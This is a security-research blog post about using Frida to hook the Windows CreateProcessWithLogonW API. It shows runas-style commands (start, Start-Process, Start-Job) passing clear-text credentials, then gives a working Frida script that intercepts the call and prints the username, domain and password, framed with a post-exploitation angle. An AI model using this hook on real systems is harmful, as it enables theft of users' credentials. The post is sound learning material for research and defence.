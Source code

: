 ```yaml
---
layout: single
title: Hooking CreateProcessWithLogonW with Frida
date: 2020-2-22
classes: wide
header:
  teaser: /assets/images/APIHooking/Start.jpg
---
```


Introduction
------------
Following [b33f](https://twitter.com/FuzzySec) most recent [Patreon](https://www.patreon.com/FuzzySec) session titled `RDP hooking from POC to PWN` where he talks about API hooking in general and then discuss in details RDP hooking ([RdpThief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)) research published in 2019 by [@0x09AL](https://twitter.com/0x09al), I've decided to learn more about the subject as it seemed intriguing from an offensive research standpoint. In essence, API hooking is the process by which we can intercept and potentially modify the behavior and flow of API calls. In this blog we will be looking at capturing data pertaining to API calls for the most part.

Tooling
-------
We will be using the following tools:

* [API Monitor](http://www.rohitab.com/apimonitor) tool which is a free software that lets you monitor and control API calls made by applications and services according to the website.
* [Fermion](https://github.com/FuzzySecurity/Fermion) wrapper for [Frida](https://github.com/frida) or [frida-node](https://github.com/frida/frida-node) rather exposing the ability to inject [Frida](https://github.com/frida) scripts into processes using a single UI. 

Target
------
While reading through chapter 3 of Windows Internals book, I noticed a mention of the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which could be used by programs and/or utilities that offer execution in the context of a different user such as `runas` command-line utility. Moreover, examining this function API documentation on MSDN I found that it takes clear-text password for a given user account as parameter amongest others which makes it even more interesting. At this point I thought this is something worth exploring and started targeting commands that make use of said API. The following is list of few commands I tested:

  
Start
-----
As the name suggest, the [start](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/start) command enables a user to open a separate window from the Windows command line. Let's execute the below command to spawn command prompt as a different user while running API Monitor in the background.

![](/assets/images/APIHooking/Start.PNG)

We notice call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which holds the credential values we just entered in the first and second parameters.

![](/assets/images/APIHooking/APIMon1.PNG)

Start-Process
--------------
The [Start-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7) cmdlet starts one or more processes on the local computer such as starting process using alternate credentials amongest other things.

![](/assets/images/APIHooking/Start-Process.JPG)

Again we search for call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and examine the parameters as shown below.

![](/assets/images/APIHooking/APIMon2.JPG)

Start-Job
---------
The last cmdlet we're going to test is [Start-Job](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-7) which is used to run jobs in the background. In this case, we're going to invoke basic powershell script to mix things up.

```powershell
$username = "lowpriv"
$password = "Passw0rd!"
$securePassword = ConvertTo-SecureString  -String $password -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $securePassword)
Start-Job -ScriptBlock {Get-Process Explorer} -Credential $Creds
```

And we get the same result.

![](/assets/images/APIHooking/APIMon3.JPG)

Frida Script
------------
I've put together basic [Frida](https://github.com/frida) script that hooks the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and then extract clear-text credentials.

```javascript
// This script extract clear-text passwords by hooking CreateProcessWithLogonW function API.
//------------------------------------------------------------------------------------------

// https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw
var pCreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW')

Interceptor.attach(pCreateProcessWithLogonW, {
    onEnter: function (args) {
        send("[+] CreateProcessWithLogonW API hooked!");
        // Save the following arguments for OnLeave
        this.lpUsername = args[0];
        this.lpDomain = args[1];
        this.lpPassword = args[2];
        this.lpApplicationName = args[4];
        this.lpCommandLine =args[5];
    },
    onLeave: function (args) {
        send("[+] Retrieving argument values..");
        send("=============================");
        send("Username    : " + this.lpUsername.readUtf16String());
        send("Domain      : " + this.lpDomain.readUtf16String());
        send("Password    : " + this.lpPassword.readUtf16String());
        send("Application : " + this.lpApplicationName.readUtf16String());
        send("Commandline : " + this.lpCommandLine.readUtf16String());
        send("=============================");
    }
});
```

Let's test it.

![](/assets/images/APIHooking/Demo.gif)

Conclusion
----------
I believe this post serves as a gentle introduction to API hooking and I'm sure I missed a few other commands that make use of [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API behind the scenes ;D. I don't know wether this is useful from post-exploitation standpoint and would rather leave it to the reader to decide. Lastly, I would like to thank [@h0mbre_](https://twitter.com/h0mbre_) for reviewing this post and hope this was a good read.
